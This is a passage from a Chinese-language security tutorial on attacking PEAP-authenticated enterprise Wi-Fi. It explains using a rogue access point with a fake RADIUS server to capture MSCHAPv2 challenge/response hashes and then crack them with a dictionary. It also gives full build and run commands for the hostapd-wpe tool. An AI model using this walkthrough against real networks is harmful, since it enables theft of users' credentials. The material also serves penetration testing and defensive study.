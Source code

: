 3.2 PEAP Attack
---------------

那么针对PEAP的攻击手法就很明确了：

1.  Fake AP + RADIUS Server。伪造热点骗取客户端的连接建立TLS隧道，在用户与伪造的Radius服务器进行认证交互时，记录下凭证hash值(Challenge/Response）
2.  通过字典攻击跑出密码

工具可以使用FreeRadius-WPE，这是一款针对开源FreeRADIUS服务器的补丁程序。 使用方法可参考知识库上mickey写的[《破解使用radius实现802.1x认证的企业无线网络》](http://drops.wooyun.org/tools/8294)一文，这里便不再赘述。

不过 FreeRadius-WPE 项目已经在14年停止维护，OpenSecurityResearch 制作了一个替代品 hostapd-wpe，可直接为hostapd打补丁支持 PEAP/MSCHAPv2、EAP-TTLS/MSCHAPv2等攻击。

### Hostapd-WPE

项目地址： https://github.com/OpenSecurityResearch/hostapd-wpe 官方文档：

```
Ubuntu/Debian/Kali Building - 
-----------------------------------------------------------------------
    apt-get update
    apt-get install libssl-dev libnl-dev

General - 
------------------------------------------------------------------------
    git clone https://github.com/OpenSecurityResearch/hostapd-wpe

    wget http://hostap.epitest.fi/releases/hostapd-2.2.tar.gz
    tar -zxf hostapd-2.2.tar.gz
    cd hostapd-2.2
    patch -p1 < ../hostapd-wpe/hostapd-wpe.patch 
    cd hostapd

    #If you're using Kali 2.0 edit .config file and uncomment:CONFIG_LIBNL32=y
    make

    I copied the certs directory and scripts from FreeRADIUS to ease that 
    portion of things. You should just be able to:

    cd ../../hostapd-wpe/certs
    ./bootstrap

    #then finally just:

    cd ../../hostapd-2.2/hostapd
    sudo ./hostapd-wpe hostapd-wpe.conf

```

建立成功后，用手机连上此热点，输入账号密码就可观察到被记录hash值(Challenge/Response），被记录在hostapd-wpe.log

images:  b1947df9a55a1c295db11840bdae36bb3d3b9ba1.jpg
